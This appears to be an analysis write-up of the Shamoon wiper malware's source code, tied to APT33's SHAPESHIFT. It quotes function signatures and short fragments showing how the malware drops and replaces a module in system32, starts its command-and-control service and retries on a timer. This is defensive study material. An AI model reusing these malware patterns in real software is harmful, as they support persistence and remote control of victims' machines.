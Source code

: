 # SHAPESHIFT  
## The wiper malware used by APT33
> Code sampled from https://github.com/christian-roggia/open-shamoon and https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/07180722/Report_Shamoon_StoneDrill_final.pdf

The code being analyzed is Shamoon, a close relative to SHAPESHIFT. Although Shamoon was never attributed to APT33, the similarity of the
SHAPESHIFT code and goals makes it seem likely that Shamoon was the work of APT33.

The code is publicly available on **christian-roggia** GitHub and portions of code available in the Kaspersky report linked available

## Analysis of Shamoon souce code

### C2.cpp [open-shamoon/open-malware/Modules/C2.cpp]
C2 stands for 'Command and control servers', which are used to enable communication between the infected computer and the attacker.

In the C2.cpp file are the three functions:
```
bool Shamoon::Modules::C2::GetC2Specific(WCHAR *lpszFileName, WCHAR *lpszFilePath)

bool Shamoon::Modules::C2::RunC2Service(const WCHAR *lpszCommand)

DWORD Shamoon::Modules::C2::ContactC2Server(LPVOID /*lpThreadParameter*/)
```

The first function attempts to navigate to the command and control server path using the provided filename.
```
M_STRING02(lpszFileName,
		
		C2_MODULE_NAME,
		L".exe"
	)
	
	// Get C&C absolute path
	M_STRING03(lpszFilePath,
		
		g_szWinDir,
		L"\\system32\\",
		lpszFileName
	)
  ```
  If the module that it navigates to already exists, it deletes the current file so that the new module can be made
  ```
  EXECUTE_WOW64_FILE_OPERATION(
		DeleteFileW(lpszFilePath);
	)
  ```
  In the second function, the goal is to run the C2 service. If the service is already running, true is returned.
  ```
  // ID already found, service running
  if(g_dwC2_ID)
		return true;
	```
  If not, the code attempts to run the service
  ```
  if(!StartServiceProcess(g_dwC2_Name, szSvcPath, &g_dwC2_ID))
		return false;
	```
  returning false if the service cannot be ran and true otherwise.
  
  In the last function, the goal is contacting the C2 server which will then allow the attacker to have full control and communication with the infected target.
  
  The code loops until the C2 service has been started, waiting for a few minutes in between calls to start the service
  ```
  // Thread sleep for 2~3 minutes
	SvcSleep(Shamoon::Utils::GetRandom() % 60 + 120);
	
	// The routine loops until the service has been sucessfully started
	while(!bSvcStopped)
	{
		// Macro to enter and leave critical section
		SYSTEM_CRITICAL_SECTION(
			// Try to run the C&C service
			RunC2Service(L"1");
		)
		
		// Thread sleep for 2~3 minutes
		SvcSleep(Shamoon::Utils::GetRandom() % 60 + 120);
	}
	
	return 0;
```

## 64bit.cpp & 32bit.cpp
These two files allow for the retrieval of information specific to both 32 bit and 64 bit machines, thus allowing for a greater scope of attack. The 32bit.cpp file is much more involved than the 64bit file, with the functions
```
bool Shamoon::Modules::_32bit::Start32bitService(LPCWSTR lpMachineName, const WCHAR *a2)

bool Shamoon::Modules::_32bit::Get32bitSpecific(WCHAR *szSvcName, WCHAR *szSvcPath)

bool Shamoon::Modules::_32bit::Save32bitModule()

bool Shamoon::Modules::_32bit::Setup32bitService()
```

Whereas 64bit has only 
```
bool Shamoon::Modules::_64bit::Get64bitSpecific(WCHAR *szSvcName, WCHAR *szSvcPath)
```
